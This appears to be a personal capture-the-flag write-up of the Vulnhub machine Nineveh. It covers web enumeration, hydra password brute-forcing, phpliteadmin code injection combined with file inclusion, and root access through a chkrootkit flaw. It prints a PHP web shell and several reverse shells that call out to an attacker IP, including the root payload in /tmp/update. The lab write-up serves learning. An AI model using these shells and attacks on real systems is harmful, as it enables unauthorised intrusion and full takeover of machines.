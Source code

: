 # init
This is a writeup for the vulnhub version of Nineveh. To make it easier for future me to look up utilized functions, this section contains code snippets.

+ cmds via PHP `<?php echo system($_REQUEST["arg"]); ?>`
+ php shell `'<?php $sock=fsockopen(“192.168.0.110”,1234);exec(“/bin/bash -i <&3 >&3 2>&3”);?>'`
+ bash shell `/bin/bash -i > /dev/tcp/192.168.0.110/5555 0<&1 2>&1`
+ [process diff](#privilege-escalation)


## Enumeration

The initial nmap scan reveals services at port 80 and 443, which is an indicator for a web server accessible via http and https. 
Enumerating directories and files with nikto and dirbuster with the default wordlists returns only 3 files for the service on port 80. One of them is an `info.php` script. The script generates a view from general information of the underlying system. This could come in handy at some point.

![phpinfo page](nineveh/img/phpinfo.png)

In the next step, directory enumeration for the service on port 443 is performed. Scanning with `dirb https://192.168.0.150` reveals a directory called `db` among some common and non-informative files. When accessing the directory, a visitor gets forwarded to an index.php file, allowing log in to a phpliteadmin v1.9 instance. By using searchsploit, this version can be identified as vulnerable to PHP code injection, though it requires authentification.

![phplite sploit](nineveh/img/searchsploit_phplite.png)

## Getting log in credentials
Since none of the sites are exposing functionality that could be compromised, it is probably necessary to acquire log in credentials through a dictionary attack.
The following hydra command is issued: `hydra -l nop -P /usr/share/wordlists/rockyou.txt 192.168.0.150 https-post-form /db/index.php:"login=Log+In&password=^PASS^&proc_login=true:Incorrect password."`. 
A first attempt was performed with the top 10k passwords from [Daniel Miesslers SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells). Since this did not result in a match, a second attack using `rockyou.txt` was started.
After approximately 1000 tries, a successfull login was detected for the password _password123_.

![hydra phplite](nineveh/img/hydra_phplite.png)

From here on forward, we are able to create databases, tables and we can also create arbitrary files in `/var/tmp`. Furthermore, this version of phpliteadmin allows to create executable php scripts by inserting php code as a field. This process is illustrated in the corresponding searchsploit PoC `searchsploit -x exploits/php/webapps/24044.txt`.
Possible php shell code can be taken from pentestmonkey , e.g. `'<?php $sock=fsockopen(“192.168.0.110”,1234);exec(“/bin/bash -i <&3 >&3 2>&3”);?>'`.

Since we cannot execute the file in any way from the phpliteadmin interface, we have to find another way. Back to the port 80 service, a scan with a bigger wordlist is performed `dirb http://192.168.0.150 /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt`. This reveals the `department` directory and another login page. 

Using `hydra -l admin -P ../bsides_vancouver_2018/10-most-common.txt 192.168.0.150 http-post-form /department/login.php:"username=^USER^&password=^PASS^:Invalid"` the password `1q2w3e4r5t` for the user `admin` is discovered. In this case, the _10k-most-commont.txt_ password list from Daniel Miesslers SecLists was enough to find a match. This means not having to fall back to `rockyou.txt`, which saves time due to the size of the list.

![department](nineveh/img/login_department.png)

As can be seen from the URL in the above image, a local file is opened and returned by one of the department pages. Trying out different other files (`/etc/passwd`, `../../../../../../../etc/passwd`) does not seem to work, because no input is returned. But when the file identifier of the file in use is modified a `file not found` error message is returned. Further testing indicates a local file inclusion vulnerability with restrictions regarding the file name.

## Getting a shell
At this point I had access to both web pages and could create and modify local files through the database. The files were furthermore accessible via the local file inclusion. 
In combination, this allowed for remote code execution.

Analogue to the procedure described by the Code Execution PoC from searchsploit, a table with one field was created. As the fieldname, the following php code was used `<?php echo system($_REQUEST["arg"]); ?>`. This allowed to issue multiple commands by specifying them as parameters for the request. To get a shell on the system, burp suite was used to allow for easier encoding and manipulation of request headers and parameters. 
To be able to execute the script it had to be named `ninevehNotes.php`. The file name was required due to the restriction regarding the local file inclusion.

![burp get shell](nineveh/img/burp_getting_shell.png)

Since the vulnhub version seemed to lack a netcat binary, and usage of bash shells failed, the php shell from [pentestmonkey](pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) was used. Directly executing the php shell by creating a table entry from it failed for unknown reasons. Therefor it was sent as an URL encoded argument to the `echo system` php file via burp suite.
This basic shell can then be upgraded by using the python pty module and sending the shell to background, and setting stty options.

![shell upgrade](nineveh/img/upgrade.png)

Looking through the home directory only one userdir can be found `/home/amrois`. It contains a user.txt file which is only readable by the user, so we have to come back later to this.

## privilege escalation
My general internal enumeration process consists of checking SUID binaries with
`find / -perm /4000 2>/dev/null`, checking `/etc/crontab` and crontabs of available users, looking for unique processes in `ps aux` and for network services with `netstat -tulpen` and `ss -tlpn`, as well as data in the user directories.
Among the network services was SSH, but due to a lack of available user account data I did not consider following this lead.

After a while of looking around I stumbled onto the `/report` directory, which is not usually found in the file system root.
Checking the files indicated recent write activity. An unknown process is generating one file every minute.
To identify the process I used a diff of the process list, after unsuccessfully trying to catch it via a similar approach using `lsof`.
Since not much is writeable by the `www-data` user, the script was build in `/tmp`.
```
#!/bin/bash

IFS=$"\n" # set field separator to newline, instead of space
stuffo=$(ps aux)
while true; do
  stuff=$(ps aux)
  diff <(echo $stuffo) <(echo $stuff)
  sleep 1
  stuffo=$stuff
done
```
The script is not optimal since it prints unnecessary data and processes, due to containg the process identifier. I had two processes switching pid with every diff performed, this generated some noise but was still acceptable. I might be able to eliminate the noise by using `cut` to trim the data or by finding an option for `ps` that returns only the process name.  
As for the process doing the writes, there were two in question `knockd` and `chkrootkit`.
By looking them up, it was clear from the log files, that `chkrootkit` was responsible for these logs, because they contained logging output indicating a scanner.
Additionally a searchsploit entry exists for chkrootkit, revealing that arbitrary code located in `/tmp/update` gets executed by it. Since the service runs as root, this could lead to root access.

## Getting root
To get root from chkrootkit the file `/tmp/update` was created with the following content:

```
#!/bin/bash
/bin/bash -i > /dev/tcp/192.168.0.110/5555 0<&1 2>&1
```

After waiting for around a minute the root shell connected. 
